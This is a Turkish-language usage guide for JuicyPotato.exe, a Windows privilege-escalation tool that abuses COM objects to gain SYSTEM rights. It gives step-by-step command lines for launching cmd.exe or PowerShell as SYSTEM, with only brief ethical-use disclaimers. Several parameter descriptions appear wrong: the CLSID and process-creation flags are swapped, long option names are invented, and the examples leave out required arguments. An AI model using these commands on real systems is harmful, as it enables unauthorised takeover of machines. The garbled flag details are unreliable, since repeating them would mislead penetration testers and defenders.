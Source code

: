 # JuicyPotato.exe Kullanım Rehberi

## JuicyPotato.exe Nedir?

**JuicyPotato.exe**, Windows ortamında yetki yükseltme (privilege escalation) saldırıları gerçekleştirmek için kullanılan bir araçtır. Windows işletim sistemlerinde yer alan **COM (Component Object Model)** nesnelerinin yanlış yapılandırmalarından faydalanarak, düşük yetkili bir kullanıcıdan SYSTEM yetkilerine geçiş yapılmasını sağlar. Bu araç, **RottenPotato** ve benzeri yöntemlerin daha geniş sürümlerinden biridir ve yalnızca belirli Windows sürümleri ve yapılandırmalarında çalışır.

> **Önemli Not:** JuicyPotato.exe yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Ana Özellikleri

1. **SYSTEM Yetkisi Elde Etme:**
   - Düşük yetkili bir kullanıcı oturumundan SYSTEM seviyesine geçiş yapar.
2. **COM Nesnelerini Kullanma:**
   - Windows sistemlerinde bulunan COM nesnelerini istismar eder.
3. **Yaygın Windows Desteği:**
   - Çeşitli Windows sürümlerinde çalışabilir.

---

## İndirme ve Çalıştırma

JuicyPotato.exe, GitHub üzerinden indirilebilir:

- [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

### Çalıştırma Adımları

1. **Dosyayı Edinin:**
   JuicyPotato.exe’yi indirin ve hedef sisteme kopyalayın.

2. **CMD veya PowerShell Üzerinden Çalıştırma:**
   ```cmd
   JuicyPotato.exe <parametreler>
   ```

---

## Kullanım Parametreleri

### 1. **`-l` veya `--listen`**
- Bağlantıların dinleneceği portu belirtir.

  **Kullanım:**
  ```cmd
  JuicyPotato.exe -l 1337
  ```

### 2. **`-p` veya `--prog`**
- SYSTEM yetkileriyle çalıştırılacak programı belirtir.

  **Kullanım:**
  ```cmd
  JuicyPotato.exe -p "cmd.exe"
  ```

### 3. **`-t` veya `--clsid`**
- İstismar edilecek COM nesnesinin CLSID'sini belirtir.

  **Kullanım:**
  ```cmd
  JuicyPotato.exe -t {4991d34b-80a1-4291-83b6-3328366b9097}
  ```

### 4. **`-c` veya `--createprocess`**
- Yeni bir işlem başlatır ve SYSTEM yetkileriyle çalıştırır.

  **Kullanım:**
  ```cmd
  JuicyPotato.exe -c "powershell.exe"
  ```

### 5. **`-h` veya `--help`**
- Tüm komutlar ve parametreler hakkında bilgi sağlar.

  **Kullanım:**
  ```cmd
  JuicyPotato.exe -h
  ```

---

## Örnek Kullanım Senaryoları

### 1. SYSTEM Yetkisi ile Komut İstemi Açma
```cmd
JuicyPotato.exe -p "cmd.exe" -l 1337
```

### 2. Belirli Bir COM Nesnesini Kullanarak Yetki Yükseltme
```cmd
JuicyPotato.exe -t {4991d34b-80a1-4291-83b6-3328366b9097} -p "powershell.exe"
```

### 3. Yeni Bir Sistem Süreci Başlatma
```cmd
JuicyPotato.exe -c "notepad.exe"
```

### 4. Yardım Mesajını Görüntüleme
```cmd
JuicyPotato.exe -h
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** JuicyPotato.exe yalnızca yetkili güvenlik uzmanları tarafından kullanılmalıdır.
- **Test Ortamı:** Üretim sistemlerinde çalıştırmadan önce test ortamında denenmelidir.
- **Sistem Logları:** Araç, SYSTEM yetkisiyle çalıştığı için aktiviteler loglara kaydedilebilir.

---

## Kaynaklar

- [JuicyPotato GitHub Sayfası](https://github.com/ohpe/juicy-potato)
- [COM Nesneleri Hakkında Microsoft Docs](https://learn.microsoft.com/en-us/windows/win32/com/)

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
